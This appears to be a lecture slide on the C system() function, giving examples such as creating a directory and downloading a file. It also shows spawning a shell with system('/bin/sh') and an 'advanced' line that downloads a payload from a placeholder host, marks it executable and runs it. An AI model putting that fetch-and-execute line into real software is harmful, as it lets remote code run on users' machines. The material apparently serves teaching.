

# System(command)
Definition
int system(const char* command);
Executes the command pointed to by the string command
Examples
system(“mkdir tmp”)
Creates a directory named “tmp”
system(“/bin/sh”); or system(“bash”);
Spawn a shell
system(“wget http://www.xkcd.com/comic.jpg”);
download the comic of the day
system(“mkdir tmp, mv file.bin ./tmp”)
Advanced examples
system(“wget www.*.com/payload.bin; chmod u+x payload.bin; ./payload.bin”);
Could use IP instead of www.*.com